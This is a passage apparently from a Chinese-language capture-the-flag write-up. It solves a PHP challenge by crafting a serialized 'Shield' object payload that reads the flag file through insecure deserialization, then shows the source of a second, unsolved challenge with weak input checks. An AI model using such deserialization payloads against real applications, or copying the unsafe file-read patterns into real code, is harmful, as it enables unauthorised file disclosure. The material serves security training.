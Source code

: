```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```
- 构造pctf.php反序列化 得`O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`
```php
<?php
  class Shield {
    public $file = "pctf.php";
  }
  $chybeta = new Shield();
  print_r(serialize($chybeta));
  ?>
```
- 构造payload`?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`
- PCTF{W3lcome_To_Shi3ld_secret_Ar3a}

## IN A Mess
打开网址查看源代码
-  index.phps

```php
<?php
error_reporting(0);
echo "<!--index.phps-->";

if(!$_GET['id'])
{
  header('Location: index.php?id=1');
  exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
  echo 'Hahahahahaha';
  return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
  require("flag.txt");
}
else
{
  print "work harder!harder!harder!";
}
?>
```
